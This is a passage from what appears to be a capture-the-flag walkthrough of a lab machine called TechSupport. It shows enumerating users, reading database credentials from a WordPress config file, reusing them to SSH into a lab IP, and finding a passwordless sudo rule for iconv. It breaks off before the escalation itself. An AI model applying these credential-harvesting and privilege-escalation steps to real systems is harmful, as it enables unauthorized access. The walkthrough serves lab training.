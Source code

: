 Much better.

<br>

## System Enumeration

Other than root this is the only user on the system with a login shell:

```
scamsite:x:1000:1000:scammer,,,:/home/scamsite:/bin/bash
```

Looking through **/var/www** shows us that there is a **wordpress** directory. I find the **wp-config.php** file and get some credentials:

```
define( 'DB_NAME', 'wpdb' );
define( 'DB_USER', 'support' );
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );
```

I look through the database but don't find anything useful.

<br>

## Scamsite User

The support user doesn't exist on the system but I wonder if there is a case of password reuse here? Let's try and **ssh** over to the **scamsite** user with these credentials:

`ssh scamsite@10.10.64.125`

```
scamsite@10.10.64.125's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


120 packages can be updated.
88 updates are security updates.


Last login: Fri May 28 23:30:20 2021
scamsite@TechSupport:~$
```

Oh scammers, you should know better!

I check `sudo -l` and see:

```
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```
